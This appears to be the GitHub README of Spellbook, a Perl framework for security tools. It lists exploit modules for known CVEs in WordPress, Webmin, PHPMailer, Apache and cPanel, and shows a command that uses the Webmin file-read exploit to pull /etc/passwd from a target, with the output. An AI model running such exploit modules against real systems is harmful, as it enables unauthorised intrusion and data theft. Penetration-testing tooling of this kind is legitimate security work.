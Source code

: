 <p align="center">
  <img src="https://heitorgouvea.me/images/projects/spellbook/logo.png" width="120px" height="120px">
  <h3 align="center"><b>Spellbook</b></h3>
  <p align="center">A framework for rapid development of reusable security tools</p>
  <p align="center">
    <a href="https://github.com/htrgouvea/spellbook/blob/master/LICENSE.md">
      <img src="https://img.shields.io/badge/license-MIT-blue.svg">
    </a>
    <a href="https://github.com/htrgouvea/spellbook/releases">
      <img src="https://img.shields.io/badge/version-0.3.5-blue.svg">
    </a>
      <br/>
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/linter.yml/badge.svg">
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/zarn.yml/badge.svg">
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/security-gate.yml/badge.svg">
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/test-on-ubuntu.yml/badge.svg">
  </p>
</p>

---

### Summary

Spellbook uses FBP: "In computer programming, flow-based programming (FBP) is a programming paradigm that defines applications as networks of "black box" processes, which exchange data across predefined connections by message passing, where the connections are specified externally to the processes. These black box processes can be reconnected endlessly to form different applications without having to be changed internally. FBP is thus naturally component-oriented." [[1]](https://en.wikipedia.org/wiki/Flow-based_programming)

The main focus of this “micro-framework” is turn in reality the rapid development of security tools using reusable patterns of FBP. 

"Third clark law: any sufficiently advanced technology is indistinguishable from magic" - that's why this project is called spellbook.

---

### Download and install

```bash
# Download
$ git clone https://github.com/htrgouvea/spellbook && cd spellbook

# Install libs and dependencies
$ cpanm --installdeps .
```

---

### How to use

```
Spellbook v0.3.3
Core Commands
==============
	Command          Description
	-------          -----------
	-s, --search     List modules, you can filter by category
	-m, --module     Set a module to use
	-h, --help       To see help menu of a module
```

### Example

```
# Searching for exploits 
$ ./spellbook.pl --search advisory

Module: Advisory::CVE_2017_5487
Description: Read usernames leaked on WordPress API
=================================================

Module: Advisory::CVE_2006_3392
Description: Read arbitrary files for servers running Webmin before 1.290 and Usermin before 1.220
=================================================

Module: Advisory::CVE_2016_10045
Description: PHPMailer < 5.2.20 Remote Code Execution PoC 0day Exploit (CVE-2016-10045) (Bypass of the CVE-2016-1033 patch)
=================================================

Module: Advisory::CVE_2021_41773
Description: Exploit path Traversal or RCE in Apache HTTP Server 2.4
=================================================

Module: Advisory::CVE_2023_29489
Description: Exploit for cPanel Reflected XSS - CVE-2023-29489
=================================================
[...]
```

```
# Using an exploit
$ perl spellbook.pl -m Advisory::CVE_2006_3392 --help

Advisory::CVE_2006_3392
=======================
-h, --help     See this menu
-t, --target   Define a target
-f, --file     Define a file to read
```

```
$ perl spellbook.pl -m Advisory::CVE_2006_3392 -t http://172.30.0.15:10000/ -f /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
[...]
```

If you are interested in developing new modules, a good start point is to read the [development guide](/wiki/Developer-Guide).

---

### Docker container

```
$ docker build -t spellbook .
$ docker run -ti --rm spellbook --search exploits
```

---

### Contribution

Your contributions and suggestions are heartily ♥ welcome. [See here the contribution guidelines.](/.github/CONTRIBUTING.md) Please, report bugs via [issues page](https://github.com/htrgouvea/spellbook/issues) and for security issues, see here the [security policy.](/SECURITY.md) (✿ ◕‿◕)

---

### License

This work is licensed under [MIT License.](/LICENSE.md)
